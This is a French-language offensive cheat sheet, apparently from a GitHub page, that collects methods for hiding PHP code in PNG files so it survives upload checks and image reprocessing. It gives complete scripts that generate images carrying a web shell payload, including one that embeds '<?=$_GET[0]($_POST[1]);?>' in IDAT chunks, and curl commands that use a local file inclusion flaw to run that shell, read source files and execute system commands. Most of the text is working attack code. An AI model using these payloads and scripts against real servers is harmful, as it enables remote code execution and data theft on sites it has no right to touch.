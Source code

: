 Résumé des principales techniques en plus concis.

Voir : 
- https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/
- https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there

## Généralités 

Prérequis : 

    sudo apt-get install php-cli
    php -v
    sudo apt-get install php8.2-gd 
    php mon_script.php

Astuces : 

- Ne surtout pas mettre de quotes dans les arguments de fonctions lorsque l'on utilise des payloads du type "\<?=$_GET\[0](\$_POST[1]);?>" puisque le contenu passe déjà par une variabilisation.

- La fonction phpinfo() est à faire en priorité pour avoir tous les chemins, toutes les fonctions interdites, etc. Bien passer le paramètre -1 pour que la sortie soit exhaustive.


## Méthode 1 : Commentaire EXIF

Méthode qui permet de contourner une vérification qui ne se fait que sur le contenu de l'image et pas forcément sur le nom : 

    exiftool -comment="<?php phpinfo(); ?>" image.png
    mv image.png image.php
    
Cette méthode implique qu'il n'y ait pas de processing côté serveur.


## Méthode 2 : Concaténation 

Même principe que la 1 mais avec une insertion directe à la fin du fichier : 

    echo '<?php phpinfo(); ?>' >> image.png
    mv image.png image.php
    
## Méthode 3 : PLTE 

Méthode permettant de contourner les compressions de type PHP-GD.

    php plte.php '<?php phpinfo(); ?>' image.php

L'image doit aussi avoir une extension PHP mais résistera à la compression.

Source du script plte.php : 

    <?php
    if(count($argv) != 3) exit("Usage $argv[0] <PHP payload> <Output file>");

    $_payload = $argv[1];
    $output = $argv[2];

    while (strlen($_payload) % 3 != 0) { $_payload.=" "; }

    $_pay_len=strlen($_payload);
    if ($_pay_len > 256*3){
        echo "FATAL: The payload is too long. Exiting...";
        exit();
    }
    if($_pay_len %3 != 0){
        echo "FATAL: The payload isn't divisible by 3. Exiting...";
        exit();
    }

    $width=$_pay_len/3;
    $height=20;
    $im = imagecreate($width, $height);

    $_hex=unpack('H*',$_payload);
    $_chunks=str_split($_hex[1], 6);

    for($i=0; $i < count($_chunks); $i++){
        $_color_chunks=str_split($_chunks[$i], 2);
        $color=imagecolorallocate($im, hexdec($_color_chunks[0]), hexdec($_color_chunks[1]),hexdec($_color_chunks[2]));
        imagesetpixel($im,$i,1,$color);
    }

    imagepng($im,$output); 
    ?>


## Méthode 4 : IDAT chunks
 
Méthode plus compliquée mais permettant à la fois de résister au processing et d'avoir une image à l'extension PNG.

    php idat.php

Script **idat.php** utilisé pour injecter le payload "<?=$_GET[0]($_POST[1]);?>" dans une image : 

	 <?php
	    header('Content-Type: image/png');

	    $p = array(0xA3, 0x9F, 0x67, 0xF7, 0x0E, 0x93, 0x1B, 0x23, 0xBE, 0x2C, 0x8A, 0xD0, 0x80, 0xF9, 0xE1, 0xAE, 0x22, 0xF6, 0xD9, 0x43, 0x5D, 0xFB, 0xAE, 0xCC, 0x5A, 0x01, 0xDC, 0xAA, 0x52, 0xD0, 0xB6, 0xEE, 0xBB, 0x3A, 0xCF, 0x93, 0xCE, 0xD2, 0x88, 0xFC, 0x69, 0xD0, 0x2B, 0xB9, 0xB0, 0xFB, 0xBB, 0x79, 0xFC, 0xED, 0x22, 0x38, 0x49, 0xD3, 0x51, 0xB7, 0x3F, 0x02, 0xC2, 0x20, 0xD8, 0xD9, 0x3C, 0x67, 0xF4, 0x50, 0x67, 0xF4, 0x50, 0xA3, 0x9F, 0x67, 0xA5, 0xBE, 0x5F, 0x76, 0x74, 0x5A, 0x4C, 0xA1, 0x3F, 0x7A, 0xBF, 0x30, 0x6B, 0x88, 0x2D, 0x60, 0x65, 0x7D, 0x52, 0x9D, 0xAD, 0x88, 0xA1, 0x66, 0x94, 0xA1, 0x27, 0x56, 0xEC, 0xFE, 0xAF, 0x57, 0x57, 0xEB, 0x2E, 0x20, 0xA3, 0xAE, 0x58, 0x80, 0xA7, 0x0C, 0x10, 0x55, 0xCF, 0x09, 0x5C, 0x10, 0x40, 0x8A, 0xB9, 0x39, 0xB3, 0xC8, 0xCD, 0x64, 0x45, 0x3C, 0x49, 0x3E, 0xAD, 0x3F, 0x33, 0x56, 0x1F, 0x19 );

	    $img = imagecreatetruecolor(110, 110);

	    for ($y = 0; $y < sizeof($p); $y += 3) {
	    $r = $p[$y];
	    $g = $p[$y+1];
	    $b = $p[$y+2];
	    $color = imagecolorallocate($img, $r, $g, $b);
	    imagesetpixel($img, round($y / 3)*2, 0, $color);
	    imagesetpixel($img, round($y / 3)*2+1, 0, $color);
	    imagesetpixel($img, round($y / 3)*2, 1, $color);
	    imagesetpixel($img, round($y / 3)*2+1, 1, $color);
	    }

	    imagepng($img);
	  ?>
        
Exemples d'exploitation avec une LFI : 

    curl -XPOST -d '1=-1' 'http://site?page=../upload/xyz.png&0=phpinfo' --output phpinfo
    
    curl -XPOST -d "1=pages/index.php" 'http://site?page=../upload/xyz.png&0=file_get_contents' --output index
    
    curl -XPOST -d '1=id' 'http://site?page=../upload/xyz.png&0=phpinfo' --output exec
    
    
## Méthode 5 : tEXt chunks

Méthode qui est un peu une version améliorée de la n°1 mais spécifique à Imagick.

    php tEXt.php 'image.png' '<?php phpinfo(); ?>' ‘image.php’
    
Source du script tEXt.php :

    <?php
    if(count($argv) != 4) exit("Usage $argv[0] <Input file> <PHP payload> <Output file>");

    $input = $argv[1];
    $_payload = $argv[2];
    $output = $argv[3];

    $imgck = new Imagick($input);
    $imgck->setImageProperty("Abcde", $_payload);
    $imgck->writeImage($output);
    ?>

